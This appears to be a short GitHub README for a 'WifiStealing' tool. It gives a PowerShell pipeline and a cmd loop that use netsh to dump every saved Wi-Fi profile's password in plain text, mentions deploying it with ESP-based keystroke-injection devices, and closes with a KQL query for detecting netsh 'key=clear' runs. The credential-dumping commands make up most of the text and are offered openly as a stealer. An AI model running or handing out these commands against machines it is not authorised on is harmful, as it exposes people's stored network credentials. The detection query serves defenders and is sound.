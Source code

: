 # WifiStealing
Wifi Stealer inspired by Manjuska Framework/TCM

Wireless will always be inferior 
:)

(netsh wlan show profiles) | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)} | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Format-Table -Wrap 


for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear


WHID for ESP based duckys

# KQL  

```
DeviceProcessEvents
| where FileName == "netsh.exe"
| where ProcessCommandLine contains "key=clear" //plain-text
```
